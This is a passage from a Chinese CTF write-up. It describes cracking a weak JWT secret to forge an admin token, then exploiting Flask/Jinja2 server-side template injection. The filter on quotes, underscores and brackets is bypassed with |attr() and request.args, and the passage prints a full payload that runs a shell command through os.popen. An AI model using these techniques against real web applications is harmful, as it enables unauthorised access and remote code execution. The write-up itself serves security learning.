 ```python
            print(content)
            break

print(data)
```

有小概率会崩，可以多跑一次

## 通关大佬

登录，尝试admin: admin，回显 你不能以管理员账号登录，抓包看到jwt，先用jwt.io梭一下

![image-20211115110336856](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211115110336856.png)

再用c-jwt-cracker梭一下，爆出来key=12345（不过说实话我这里真没爆出来），再用jwt.io改一下user和exp

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJleHAiOjE2MzY5NTUwNjR9.jEw2QuCd67ZRC_eAVynhcZTYAyjHSxfrrpkqEF98Uio
```

![image-20211115120908659](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211115120908659.png)

看到这种的框，直觉就是sqli, xss, ssti；加上jwt一般flask会用，试一下ssti，果然

这里的通关人对长度进行了限制，排名需要是数字，时间没有啥必要改，感言不限长度，但是过滤了一票字符（单双引号（无法用hex和拼接），下划线，request，中括号，百分号（无法for语句遍历 如果用chr()还得爆破），算是比较严格的了），可以用`|attr()`这样的形式来绕过，看了wp之后发现这里还结合了`request.args`，也就是加一些get参数然后在post的部分进行引用，再充分利用config这个对象（前面那个原题也是充分用了config），payload:

```
/edit?a=__init__&b=__globals__&c=__getitem__&d=os&e=popen&f=whoami&g=read
POST: name={%25set%20r=request.args%25}&rank=1&speech={{(config|attr(r.a)|attr(r.b))|attr(r.c)(r.d)|attr(r.e)(r.f)|attr(r.g)()}}&time=2021年11月11日
```

